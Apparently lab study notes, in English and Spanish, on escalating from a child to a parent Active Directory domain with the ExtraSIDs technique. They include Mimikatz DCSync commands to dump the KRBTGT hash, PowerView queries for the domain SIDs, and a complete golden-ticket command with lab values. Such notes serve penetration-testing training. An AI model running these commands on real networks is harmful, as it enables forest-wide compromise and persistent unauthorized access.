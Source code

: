 
## Attacking Domain Trusts - Child -> Parent Trusts - from Windows

The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/eb955e64-79c0-4016-a49c-013ce5d3b0a3)


### ExtraSIDs

Ahora podemos recopilar todos los datos necesarios para realizar el ataque ExtraSids. Primero, necesitamos obtener el hash NT para KRBTGT.cuenta, que es una cuenta de servicio para el Centro de distribución de claves (KDC) en Active Directory. La cuenta KRB (Kerberos) TGT (Ticket Granting Ticket) se utiliza para cifrar/firmar todos los tickets Kerberos otorgados dentro de un dominio determinado. Los controladores de dominio utilizan la contraseña de la cuenta para descifrar y validar tickets de Kerberos. La cuenta KRBTGT se puede utilizar para crear tickets Kerberos TGT que se pueden utilizar para solicitar tickets TGS para cualquier servicio en cualquier host del dominio. Esto también se conoce como ataque Golden Ticket y es un mecanismo de persistencia bien conocido para los atacantes en entornos de Active Directory. La única forma de invalidar un Golden Ticket es cambiar la contraseña de la cuenta KRBTGT, lo que debe hacerse periódicamente y definitivamente después de una evaluación de prueba de penetración donde se alcanza el compromiso total del dominio.


```
Obtención del NT Hash de la cuenta KRBTGT usando Mimikatz
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
# PowerView

Get-DomainSID

Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"

Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

## Creating a Golden Ticket with Mimikatz

 kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

```

### Ejercicio

Vemos cuales son los Trust aunque se podria hacer con PowerView use el modulo de AD. Vemos cual es el child pues no fijamos en el campo IntraForest esta en True. ( ahi entonces dice que significa que es child).
